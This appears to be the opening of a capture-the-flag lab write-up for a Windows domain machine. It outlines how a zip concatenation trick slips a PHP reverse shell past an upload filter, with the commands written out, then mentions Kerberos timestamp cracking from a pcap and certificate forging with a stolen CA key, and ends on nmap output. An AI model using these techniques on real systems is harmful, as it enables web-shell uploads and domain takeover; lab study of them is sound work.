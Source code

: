
#php #file_upload #pcap #Golden_Certificate #SeManageVolumePrivilege
## Summary
- The trick in `zip` file_upload, which accept only `.pdf` `.docx` `.pptx` `.xlsx` . So we can't upload reverse shell with `php` or other file extensions.
  but we can upload reverse shell, By compressing `.pdf` ,then compress the `malicious` folder that contain reverse shell, then compine them in one zip file
	- **Not nested** (in the usual sense). `main.zip` is not automatically decompressed into `head.zip` and `tail.zip` as separate files unless `head.zip`/`tail.zip` are themselves entries recorded in the CD as files (i.e., if the central directory lists them as members named `head.zip` and `tail.zip`).
	- Typically the result is: `main.zip` is interpreted as _one ZIP archive_ which may contain the entries from head and/or tail, depending on the final CD that the extractor reads. In this situation its 
	  `tail.zip` which get decompressed to.
```
> ls
malicious_dir test.pdf

\malicious_dir> ls
shell.php

> zip head.zip test.pdf
> zip -r tail.zip malicious_dir
> cat head.zip tail.zip > main.zip

```

- Another Trick, Looking at `pcap`. Someone has used `kerberos` to authenticate to `SMB` shares, That enabled us to crack the encrypted timestamp in order to get the actual password.
- `Golden certificate`: we were able to get the private key, Using it we can forge any user in the Domain and get his certificate. 

---
10.10.11.71

We will start with nmap:
```
PORT     STATE SERVICE       REASON          VERSION       
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 127 Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS              
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
|_http-title: Did not follow redirect to http://certificate.htb/
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-09-26 19:37:42Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certificate.htb
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-09-26T19:39:05+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
```

